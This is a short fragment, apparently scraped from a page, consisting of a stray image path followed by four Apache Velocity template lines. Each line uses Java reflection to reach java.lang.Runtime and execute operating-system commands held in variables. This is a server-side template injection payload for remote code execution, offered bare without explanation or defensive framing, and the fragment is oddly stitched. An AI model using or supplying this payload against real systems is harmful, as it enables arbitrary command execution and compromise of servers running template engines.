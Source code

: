 #set ($e="exp")
#set ($a=$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($cmd0))
#set ($b=$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($cmd1))
#set ($c=$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($cmd2))
#set ($d=$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($cmd3))
